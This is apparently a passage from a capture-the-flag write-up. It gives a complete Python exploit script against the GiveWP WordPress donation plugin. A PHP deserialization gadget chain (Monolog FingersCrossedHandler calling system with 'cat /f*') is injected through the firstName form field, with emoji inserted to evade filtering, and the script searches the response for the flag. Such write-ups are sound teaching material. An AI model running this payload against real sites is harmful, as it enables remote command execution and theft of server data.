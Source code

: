 In order to send the crafted exploit, i'll use python script below:

```python
import requests
from urllib.parse import unquote, quote
from re import search

url = "http://52.77.81.199:9140/?givewp-route=donate&givewp-route-signature=7be844822138dbd619d31db7e8b9cf02&givewp-route-signature-id=givewp-donate&givewp-route-signature-expiration=1740489610"

headers = {
    "Accept-Language": "en-US,en;q=0.9",
    "Accept": "application/json",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
}

popGadget = unquote("O%3A37%3A%22Monolog%5CHandler%5CFingersCrossedHandler%22%3A4%3A%7Bs%3A16%3A%22%00%2A%00passthruLevel%22%3Bi%3A0%3Bs%3A10%3A%22%00%2A%00handler%22%3Br%3A1%3Bs%3A9%3A%22%00%2A%00buffer%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22cat%20%2Ff%2A%22%3Bs%3A5%3A%22level%22%3Bi%3A0%3B%7D%7Ds%3A13%3A%22%00%2A%00processors%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A3%3A%22pos%22%3Bi%3A1%3Bs%3A6%3A%22system%22%3B%7D%7D")

emoji = quote("😼")

popGadget = popGadget.replace(":", ":" + emoji)
popGadget = popGadget.replace("N;", "N" + emoji + ";")

# Multipart form-data payload
files = {
    "amount": (None, "10"),
    "currency": (None, "USD"),
    "donationType": (None, "single"),
    "formId": (None, "9"),
    "gatewayId": (None, "manual"),
    "firstName": (None, popGadget),
    "lastName": (None, "b"),
    "email": (None, "aa@gmail.com"),
    "comment": (None, ""),
    "donationBirthday": (None, ""),
    "originUrl": (None, "http://52.77.81.199:9140/?give_forms=givewp-donation-form"),
    "isEmbed": (None, "true"),
    "embedId": (None, "9"),
    "gatewayData[testGatewayIntent]": (None, "test-gateway-intent")
}

response = requests.post(url, headers=headers, files=files)

match = search(r"CTF\{.*?\}", response.text)

if match:
    print("Found:", match.group())
else:
    print("No flag found.")

```
